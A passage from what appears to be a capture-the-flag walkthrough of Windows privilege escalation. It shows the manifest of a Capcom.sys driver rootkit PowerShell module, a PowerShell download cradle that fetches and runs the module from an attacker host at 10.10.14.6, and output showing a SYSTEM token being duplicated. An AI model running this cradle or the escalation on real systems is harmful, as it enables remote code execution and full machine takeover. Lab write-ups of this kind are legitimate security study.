     # ID used to uniquely identify this module
    GUID = 'd34db33f-f3e7-417d-8735-e624dd62e7c8'
    
    # Author of this module
    Author = 'Ruben Boonen'
    
    # Copyright statement for this module
    Copyright = 'BSD 3-Clause'
    
    # Description of the functionality provided by this module
    Description = 'Rootkit POC based on signed Capcom.sys driver!'
    
    # Minimum version of the Windows PowerShell engine required by this module
    PowerShellVersion = '2.0'
    
    # Architecture is x64 only
    ProcessorArchitecture = 'AMD64'
    
    # Functions to export from this module
    FunctionsToExport = @(
        'Capcom-ElevatePID',
        'Capcom-BypassDriverSigning'
    )
    }
    

There are two exported functions. I’ll call `Capcom-ElevatePID` once I get the
PowerShell into my current session.

#### Run It

Now I’ll use the PowerShell `iex` cradle to load all that PowerShell into my
current session:

    
    
    PS C:\> iex(new-object net.webclient).downloadstring('http://10.10.14.6/capcom-all')
    

Now it’s as simple as running `capcom-elevatepid`:

    
    
    PS C:\> capcom-elevatepid
    
    [+] SYSTEM Token: 0xFFFFC0001B60777C
    [+] Found PID: 5096
    [+] PID token: 0xFFFFC0001D8A1066
    [!] Duplicating SYSTEM token!
    